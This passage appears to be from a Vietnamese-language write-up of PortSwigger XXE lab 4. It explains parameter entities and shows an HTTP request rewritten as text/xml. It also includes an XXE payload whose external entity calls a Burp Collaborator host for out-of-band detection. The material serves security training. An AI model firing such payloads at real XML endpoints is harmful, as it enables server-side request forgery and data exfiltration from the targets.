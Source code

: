 Ta có thể chỉnh lại content-type và chèn nội dung XML vào như sau:
```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

## 10. Nói thêm về ``parameter entity`` thông qua lab 4 XXE injection portswigger
Ở lab này ta sẽ dùng ``parameter entity`` để thực hiện XXE attack, bởi vì cách khai báo entity thông thường ở lab này đã bị blocked.

Nói thêm 1 tý về ``parameter entity`` thì nó cũng có chức năng tương tự như là khai báo kiểu thông thường, tuy nhiên một số trường hợp mà khai báo thông thường bị block thì ta có thể dùng cách này để thay thế. Điểm khác nhau giữa ``parameter entity`` và cách khai báo thông thường là cách khai báo thông thường có thể được tham chiếu tới trong cả file XML, còn ``parameter entity`` thì chỉ được tham chiếu bên trong DTD hay nói dễ hiểu là bên trong phần ``<!DOCTYPE ...>``

Quay trở về với lab thìu lab cho ta một trang check stock và nhiệm vụ của ta là thực hiện XXE out-of-bound đến Burp Collabroator

Ta thử inject payload bằng cách khai báo thông thường:
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://ywy2xnkgfa21yppymd4w623z4qagy5.oastify.com">]>
  <stockCheck>
    <productId>
      &xxe;
    </productId>
    <storeId>1</storeId>
  </stockCheck>
```

![lab4](./img/lab4-param.png)